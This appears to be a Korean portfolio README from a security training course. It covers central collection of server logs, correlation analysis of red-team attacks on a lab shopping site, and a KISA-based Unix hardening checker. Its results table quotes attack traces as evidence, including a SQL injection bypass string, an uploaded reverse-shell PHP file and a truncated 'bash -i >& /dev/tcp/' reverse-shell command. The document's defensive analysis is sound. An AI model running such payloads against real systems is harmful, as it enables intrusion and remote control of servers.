








# 쇼핑몰 인프라 보안 관제 — 서버 로그 중앙 수집·분석 & 주정통 Unix 점검

> 쇼핑몰 인프라의 서버 보안 로그 7종을 C&C 관제 서버로 모으는 수집 체계를 자동화 스크립트로 구축하고, 여러 계층의 로그를 상관분석해 4개 공격 시나리오의 **실제 성공 여부**를 확정했습니다. 주요정보통신기반시설(주정통) 가이드 기준 Unix 서버 취약점 점검 모듈(54개 항목)도 구현했습니다.

| 항목 | 내용 |
|---|---|
| 기간 | 2026.08.03 ~ 2026.08.14 (2주) |
| 인원 | 19명 팀 프로젝트 (블루·레드·퍼플팀) — 국비교육 정보보안 전문가 과정 2차 프로젝트 |
| 내 역할 | 퍼플팀(보안 관제) — **서버 로그 수집·분석 파트**, **주정통 점검 코드 Unix 모듈** |
| 주요 기술 | Rocky Linux 9, Ubuntu 24.04, rsyslog (imfile·imtcp), syslog-ng, logrotate, auditd, ModSecurity, MariaDB Audit, Bash, Python, Paramiko |

### 프로젝트 전체 구성

| 팀 | 담당 |
|---|---|
| 블루팀 | GNS3 기반 쇼핑몰 네트워크(EIGRP·Frame Relay·NAT·VLAN), 역할별 서버·방화벽·백업 구축 |
| 레드팀 | 취약 쇼핑몰 대상 웹해킹 시나리오 수행 (SQLi, Stored XSS, 파일 업로드 RCE, 브루트포스) |
| **퍼플팀** | Snort3 IDS·pfSense/Suricata IPS, **서버 로그 관제**, 통합 분석 프로그램 ALPACA, **주정통 점검 자동화** |

---

## 1. 목표

- **무엇을**: 쇼핑몰 서비스 서버들의 보안 로그(웹·WAF·DB·OS·DNS·FTP·SNMP)를 C&C 관제 서버 한 곳으로 모아 파싱·DB 적재하고, 공격 의도를 판정하는 수집·분석 체계를 구축. KISA 주정통 가이드 기반으로 Unix 서버를 자동 점검하는 모듈 구현.
- **왜**: 레드팀 공격이 "시도"에 그쳤는지 "성공"했는지는 로그 한 종류로는 판단할 수 없어서, 여러 계층 로그를 같은 시간축에 놓고 비교할 기반이 필요했습니다. 또 서버마다 OS·서비스 조합이 달라 수작업으로 설정하면 누락과 불일치가 생기기 쉬워 설정 과정을 스크립트로 표준화했습니다.

## 2. 구성도



### 관제 대상 로그

| 로그 | 서비스 / 파일 | 수집 방식 | Facility | 탐지 관점 |
|---|---|---|---|---|
| 웹 요청 | nginx·Apache `access.log` | imfile | local5 | 공격 요청의 진입 지점(경로·파라미터·상태코드), 세션 쿠키는 마스킹 |
| WAF | ModSecurity audit | imfile | local4 | SQLi(942100)·XSS(941xxx)·RCE(932130)·Path Traversal(930110) 시그니처 — 탐지 전용 |
| DB | MariaDB `server_audit.log` | imfile | local2 | DB에 실제 도달·실행된 SQL과 문법 오류(1064) → 주입 **성공** 징후 확증 |
| OS | Linux `audit.log` | imfile | local3 | 명령 실행(EXECVE)·파일/계정 변조 → 웹셸·리버스셸의 OS 레벨 증거 |
| FTP | vsftpd·xferlog | imfile | local1 | 인증, 파일 전송(STOR) |
| DNS | BIND query | imfile | local0 | Zone Transfer 시도 등 질의 이력 |
| SNMP | snmptrapd | syslog 직접 수집 | - | community 오류, 비인가 접속 시도 |
| 보안 장비 | pfSense filterlog·Suricata eve | syslog-ng → TCP 5140 | - | DROP·ALERT 이벤트 (수신 설정만 담당) |

## 3. 내가 한 일

### 3-1. 관제 대상 로그 선정과 필드 설계

- 서비스별 로그 위치·형식·수집 방식을 정리해 관제 대상 **7종**을 선정했습니다.
- 저장 비용과 조회 지연을 줄이기 위해, 공격 탐지와 유형 분류에 실제로 쓰이는 필드만 골라 **육하원칙 축**으로 정형 테이블을 설계했습니다.

| 테이블 | 누가 | 언제 | 어디를 | 무엇으로 | 결과 | 무슨 공격 |
|---|---|---|---|---|---|---|
| web_access | src_ip | event_time | payload(요청) | payload·cookie | status | detect_reason |
| modsec | src_ip | event_time | uri·dst_port | request_body·matched_data | status | detect_reason |
| mariadb | src_ip·user | event_time | db_name | payload(SQL) | retcode | detect_reason |
| audit | auid·uid·addr | event_time | exe·lport | payload(명령) | res | detect_reason |
| dns | src_ip | event_time | queried_domain | class·record_type | - | detect_reason |
| ftp | src_ip·pid | event_time | target_user | log_detail | event_type | detect_reason |
| snmp | src_ip | event_time | community | log_detail | event_type | detect_reason |

### 3-2. 로그 송수신 자동화 스크립트

| 스크립트 | 대상 | 주요 동작 |
|---|---|---|
| `setup_agent.sh` | 일반 서버 (Rocky·Ubuntu) | OS 자동 인식 → 로그 항목 다중 선택 → 패키지 설치·로깅 설정 → rsyslog 전송 설정(TCP 514). 설정 없이 로그 발생 여부만 확인하는 "테스트만" 모드 제공 |
| `setup_central.sh` | C&C 수신 서버 | TCP 514(서버)·5140(pfSense syslog-ng) 수신 정의 → 송신 IP별 디렉터리 분리 저장. 기존 514 수신 설정이 있으면 주석 처리해 포트 충돌 방지 |

- 변경 대상 설정 파일은 수정 전에 `/var/backups/log-setup/`에 날짜별 `.bak`으로 백업합니다.
- 상관분석이 가능하도록 전 서버 타임스탬프를 `RSYSLOG_FileFormat`(ISO-8601)으로 통일하고 NTP로 시각을 동기화했습니다.
- 적용 후 `rsyslogd -N1`로 문법을, `ss -tlnp`로 수신 포트를 검증합니다.

C&C 수신 설정 (`/etc/rsyslog.d/central.conf`):

```
module(load="imtcp")

# 514: 각 서버 rsyslog 전송분
input(type="imtcp" port="514" ruleset="remoteServer")

# 5140: syslog-ng(pfSense/Suricata) 전송분
input(type="imtcp" port="5140" ruleset="remoteRaw")

template(name="RemoteLogTemplate" type="string"
         string="/var/log/remote/%fromhost-ip%/%programname%.log")
```

| setup_agent.sh (Rocky) | setup_central.sh |
|---|---|
|  |  |

### 3-3. 로그 저장 정책

C&C 서버에 원격 로그가 무제한으로 쌓여 디스크가 가득 차면 관제 전체가 멈추기 때문에 보관 기준을 정했습니다.

```
/var/log/remote/*/*.log {
    daily
    size 100M
    rotate 90
    compress
    missingok
    notifempty
    postrotate
        # rsyslog에 HUP 시그널 → 재시작 없이 파일 핸들 교체, 로그 누락 방지
        /usr/bin/systemctl kill -s HUP rsyslog.service >/dev/null 2>&1 || true
    endscript
}
```

- 파일당 100MB·90일 제한으로 디스크 고갈 예방, gzip 압축으로 과거 로그 용량 약 70~80% 절감
- DB 적재 데이터는 매일 03:00 백업 DB로 이관 → 이관 건수 검증 → 90일 초과분 자동 삭제

```
0 3 * * * /usr/local/bin/db_daily_backup_and_purge.sh >> /var/log/db_backup.log 2>&1
```

### 3-4. 파싱·DB 적재와 Python 로그 분석

C&C에 수신된 로그를 종류별로 파싱해 Log DB 테이블에 적재하고, 아래 기준으로 공격을 판정해 `detect_reason`에 기록합니다. 전체 기준과 시나리오별 상세 분석은 [docs/log-analysis.md](./docs/log-analysis.md)에 정리했습니다.

| 탐지 항목 | 로그 소스 | 판정 기준 |
|---|---|---|
| 웹 로그인 브루트포스 시도 / 성공 | access | `POST login.php`의 비302 응답이 60초 내 5회 / 그 뒤 302 발생 |
| SQL Injection · XSS | access, modsec | 디코딩 후 시그니처 1개라도 매칭 시 즉시 |
| IDOR (연속 ID 조작) | access | `id=숫자` 등 연속 조회가 60초 내 5회 |
| 세션 하이재킹 | access | 같은 쿠키가 최초 기록된 IP와 다른 IP에서 사용 |
| 리버스셸 / C2 연결 | audit (EXECVE) | hex 디코딩 후 셸 시그니처 매칭 시 즉시 |
| DNS 터널링 | named query | 80자 이상 도메인 질의가 60초 내 30회 |

### 3-5. 주정통 Unix 서버 점검 모듈 ([`unix_server.py`](./jujeongtong/team_works/unix_server.py))

KISA 「주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드」의 Unix 항목(U-01~U-67) 중 **54개 항목**을 클래스로 구현해 양호/취약과 판정 사유를 출력합니다. 팀 공통 메인 코드(`main.py`)에 그대로 연결되도록 공통 인터페이스를 따랐습니다.

| 클래스 | 역할 |
|---|---|
| `SSHConnection` | 점검 대상 SSH 연결(Paramiko), OS 감지, 명령 실행·연결 종료 |
| `IdentityManagement` | 계정·비밀번호·권한 관련 항목 (root 원격 접속 제한, 비밀번호 정책, 계정 잠금 임계값 등) |
| `FileDirectoryManagement` | 주요 파일·디렉터리 소유자와 권한 (`/etc/passwd`, `/etc/shadow`, SUID/SGID 등) |
| `ServiceManagement` | 네트워크·원격·불필요 서비스 |
| `PatchManagement` | OS와 주요 소프트웨어 보안 패치 상태 |
| `LogManagement` | 보안 로그 설정·보관·검토 |
| `ReportManager` | 결과(진단결과·판정사유)를 콘솔 표로 출력하고 JSON 보고서로 저장 |
| `UnixServer` | `main.py` 연동 Wrapper — `check_list`의 각 항목을 실행해 `(진단결과, 판정사유)`를 반환, 오류가 나면 전체를 멈추지 않고 "검토오류"로 기록 |

- 점검 클래스는 SSH 세션을 직접 만들지 않고 연결 객체를 주입받는 구조라, **`main.py`의 여러 장비 일괄 점검(결과 DB 저장)과 파일 단독 실행(결과 JSON 저장) 두 방식에서 같은 코드가 동작**합니다.
- Rocky(RedHat 계열)와 Ubuntu(Debian 계열)를 자동으로 구분해, OS별로 다른 설정 파일 위치와 PAM 모듈을 점검합니다.
- 결과는 DB에 적재되어 점검 대시보드에서 실행 일시·장치별로 조회됩니다.
- 접속 계정·비밀번호는 코드에 두지 않고 실행할 때 입력받습니다.

## 4. 트러블슈팅

### 문제 1. 레드팀이 쇼핑몰 웹 서버에 접근·스캔하지 못함 (R10 NAT)

> 프로젝트 초기, 네트워크 토폴로지를 설계하고 연결하는 단계에서 겪은 문제입니다.

- **증상**: 레드팀 공격 PC에서 쇼핑몰 웹 서버로 스캔을 시도했지만 결과가 나오지 않고, 웹 서버에 접속도 되지 않음
- **원인 분석**:
  1. 스캔 결과가 아예 나오지 않는 것을 보고, 스캔 도구 문제가 아니라 웹 서버까지 도달 자체가 안 되는 상황이라고 판단
  2. 레드팀 → 웹 서버 경로에 있는 R10의 NAT 설정을 점검 → 외부에서 들어오는 연결을 내부 웹 서버로 넘겨줄 변환 규칙이 없음을 확인
- **원인**: 초기 토폴로지를 레드팀의 접근 경로를 고려하지 않고 설계한 상태에서 R10에 NAT를 걸었음. 이 NAT는 내부에서 바깥으로 나가는 연결만 변환하기 때문에, 외부(레드팀)에서 먼저 시작하는 연결은 내부 웹 서버로 전달되지 않았음
- **해결**: R10에 포트포워딩을 추가해 외부에서 들어오는 웹 서비스 요청을 내부 웹 서버로 연결 → 레드팀의 웹 서버 접근과 스캔이 가능해짐

  ```
  ! 개념 예시 (당시 설정 원본 아님) — Cisco IOS Static NAT 포트포워딩
  ip nat inside source static tcp <웹 서버 내부 IP> 80 <R10 외부 IP> 80
  ```

- **배운 점**: 토폴로지를 그리기 전에 "누가, 어디서, 어디로 접근해야 하는지" 통신 요구사항부터 정리해야 한다. NAT 경계에서는 내부 → 외부 통신뿐 아니라, 외부에서 들어와야 하는 서비스(이번에는 레드팀의 공격 경로)도 함께 설계해야 한다.

## 5. 결과

### 로그 수집 확인

C&C 서버의 `/var/log/remote/` 아래에 송신 서버 IP별 디렉터리와 로그 종류별 파일이 분리 저장되는 것을 확인했습니다. 웹 access 로그는 세션 쿠키를 마스킹한 상태로 수집됩니다.

| 설정 검증 | 송신 IP별 저장 구조 |
|---|---|
|  |  |



### 로그 상관분석으로 공격 성공 여부 확정

| 시나리오 | 엮은 로그 | 확정한 내용 |
|---|---|---|
| SCN-01 SQLi 인증 우회 | nginx access의 로그인 성공(302) + MariaDB audit의 `' OR '1'='1' -- -` 쿼리 (같은 시각) | SQL 주입이 실제 인증 우회로 성립, access 로그로 공격자 IP 식별 |
| SCN-02 Stored XSS·IDOR | access의 `order.php?action=cancel`(200) + audit의 `UPDATE orders … cancelled` | 권한 없는 주문 취소 **5건** 확정. 서버를 거치지 않는 피싱 구간은 앞뒤 로그와 DB 흔적으로 피해 규모 추정 |
| SCN-03 파일 업로드 RCE | ModSecurity 933110(.php 업로드) + nginx `GET /uploads/reverseshell.php` + auditd `EXECVE bash -i >& /dev/tcp/…` | 시각(3초 이내)·PID로 엮어 업로드 → 실행 → 리버스셸 연결 시도 전 과정 확정 (연결 자체는 `no route to host`로 실패) |
| SCN-04 브루트포스 | `POST /login.php` 실패 200 ×44, 성공 302 ×3 + MariaDB audit의 대입 비밀번호 | 성공한 계정·비밀번호 조합 확정 |

로그 계층별로 무엇을 남기고 무엇을 남기지 못하는지 정리한 매트릭스입니다. 단일 로그로는 알 수 없던 결론을 여러 로그를 엮어서 얻었습니다.


### 주정통 Unix 점검

| Unix 점검 결과 화면 (프로젝트 당시) | 점검 대시보드 연동 |
|---|---|
|  |  |

### 구현도 (담당 파트)

| 목표 | 결과 |
|---|---|
| 관제 대상 로그 종류 정리 및 선정 (7종) | ✅ |
| 서버 로그 설정 자동화 스크립트 (Rocky·Ubuntu, nginx·Apache 조합) | ✅ |
| 리눅스 서버 로그의 C&C 중앙 전송 (rsyslog) | ✅ |
| 보안 장비 로그의 C&C 수신 (syslog-ng → 5140) | ✅ |
| C&C 로그 파싱 및 DB 적재 | ✅ |
| Python 기반 공격 의도 분석 | ✅ |
| 주정통 Unix 점검 모듈 통합 | ✅ |
| Windows 이벤트 로그 중앙 수집 | ❌ 미구현 |
| 서버 방화벽 로그 관제 대상 포함 | ❌ 로그 포맷 협의 지연으로 제외 |
| 주정통 점검 후 취약 설정 원격 자동 조치 | ❌ OS 버전·패키지 의존성 등 안전성 검증 필요 |

## 회고

- **잘한 점**: 서버마다 다른 OS·서비스 조합을 스크립트 하나로 표준화하고(OS 자동 인식, 설정 백업, 문법 검증), 누가 실행해도 같은 결과가 나오는 구축 절차를 만들었다. 로그 한 종류로는 판단할 수 없는 "공격 성공 여부"를 여러 계층의 로그를 같은 시간축으로 엮어 근거와 함께 확정했다.
- **아쉬운 점 / 다음에 개선할 점**: Windows 이벤트 로그 수집과 서버 방화벽 로그 연동을 마무리하지 못했다. 스크립트의 설정 원복이 수동이라, 다음에는 `.bak` 기반 자동 롤백 옵션을 추가하고 싶다. 주정통 점검 결과를 바탕으로 한 자동 조치는 원복 가능한 방식으로 설계해 보고 싶다.

---

## 디렉터리 구조

```
.
├── README.md
├── docs/
│   └── log-analysis.md   # 로그 분석 기준 전체, 시나리오별 상관분석 상세
├── images/               # 구성도, 실행·결과 스크린샷
└── jujeongtong/          # 주정통 점검 코드 (팀 공통 main.py + 팀별 점검 모듈)
    ├── main.py
    └── team_works/
        └── unix_server.py   # 내가 작성한 Unix 점검 모듈
```
